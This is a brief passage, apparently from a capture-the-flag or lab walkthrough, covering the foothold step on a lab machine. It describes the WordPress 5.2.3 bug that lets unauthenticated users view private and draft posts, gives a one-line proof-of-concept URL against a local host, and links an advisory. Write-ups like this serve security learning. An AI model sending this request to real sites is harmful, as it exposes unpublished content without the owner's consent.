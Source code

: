 ![](./IMG/15.png)

---
## Foothold 

### WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts


#### Description 

    This vulnerability could allow an unauthenticated user to view private or draft posts due to an issue within WP_Query.

#### PoC

```
http://wordpress.local/?static=1&order=asc 
```

#### Link
- [Unauthenticated View Private/Draft Posts](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2)

---
